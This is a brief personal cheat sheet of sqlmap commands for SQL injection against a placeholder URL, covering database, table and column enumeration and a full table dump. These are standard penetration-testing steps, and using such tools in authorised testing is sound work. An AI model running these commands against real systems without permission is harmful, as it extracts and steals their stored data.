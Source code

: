 # SQLMAP commands

This is a simple file for remind me some sqlmap instructions.

### Show databases
	sqlmap -u someurl.com/file.php?action=arg --dbs

### Show tables
	sqlmap -u someurl.com/file.php?action=arg -D SomeDatabase --tables

### Show columns
	sqlmap -u someurl.com/file.php?action=arg -D SomeDatabase -T someTable --columns

### Get rows of table
	sqlmap -u someurl.com/file.php?action=arg -D SomeDatabase -T someTable --dump
